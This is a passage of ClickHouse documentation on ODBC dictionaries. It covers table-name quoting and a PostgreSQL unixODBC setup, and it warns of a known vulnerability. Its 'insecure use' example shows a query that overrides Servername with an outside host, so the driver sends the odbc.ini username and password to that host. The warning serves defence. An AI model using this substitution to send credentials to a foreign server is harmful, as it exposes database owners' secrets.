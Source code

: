 ClickHouse receives quoting symbols from ODBC-driver and quote all settings in queries to driver, so it’s necessary to set table name accordingly to table name case in database.

If you have a problems with encodings when using Oracle, see the corresponding [F.A.Q.](../../../faq/integration/oracle-odbc.md) item.

### Known Vulnerability of the ODBC Dictionary Functionality {#known-vulnerability-of-the-odbc-dictionary-functionality}

!!! attention "Attention"
    When connecting to the database through the ODBC driver connection parameter `Servername` can be substituted. In this case values of `USERNAME` and `PASSWORD` from `odbc.ini` are sent to the remote server and can be compromised.

**Example of insecure use**

Let’s configure unixODBC for PostgreSQL. Content of `/etc/odbc.ini`:

``` text
[gregtest]
Driver = /usr/lib/psqlodbca.so
Servername = localhost
PORT = 5432
DATABASE = test_db
#OPTION = 3
USERNAME = test
PASSWORD = test
```

If you then make a query such as

``` sql
SELECT * FROM odbc('DSN=gregtest;Servername=some-server.com', 'test_db');
```

ODBC driver will send values of `USERNAME` and `PASSWORD` from `odbc.ini` to `some-server.com`.

### Example of Connecting Postgresql {#example-of-connecting-postgresql}

Ubuntu OS.

Installing unixODBC and the ODBC driver for PostgreSQL:

``` bash
$ sudo apt-get install -y unixodbc odbcinst odbc-postgresql
```

Configuring `/etc/odbc.ini` (or `~/.odbc.ini` if you signed in under a user that runs ClickHouse):

``` text
    [DEFAULT]
    Driver = myconnection

    [myconnection]
    Description         = PostgreSQL connection to my_db
    Driver              = PostgreSQL Unicode
    Database            = my_db
    Servername          = 127.0.0.1
    UserName            = username
    Password            = password
    Port                = 5432
    Protocol            = 9.3
    ReadOnly            = No
    RowVersioning       = No
    ShowSystemTables    = No
    ConnSettings        =
```
